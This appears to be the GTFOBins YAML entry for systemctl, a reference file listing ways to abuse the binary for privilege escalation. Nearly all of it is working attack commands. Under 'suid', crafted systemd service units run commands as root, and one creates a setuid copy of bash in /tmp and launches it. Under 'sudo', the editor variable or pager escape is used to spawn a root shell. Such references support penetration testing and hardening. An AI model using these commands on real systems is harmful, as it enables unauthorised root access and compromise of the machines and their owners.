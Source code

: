 ```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "cp /bin/bash /tmp/shell && chmod +s+x /tmp/shell"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
        /tmp/shell -p
  sudo:
    - code: |
        TF=$(mktemp)
        echo /bin/sh >$TF
        chmod +x $TF
        sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemctl
        !sh
---
```

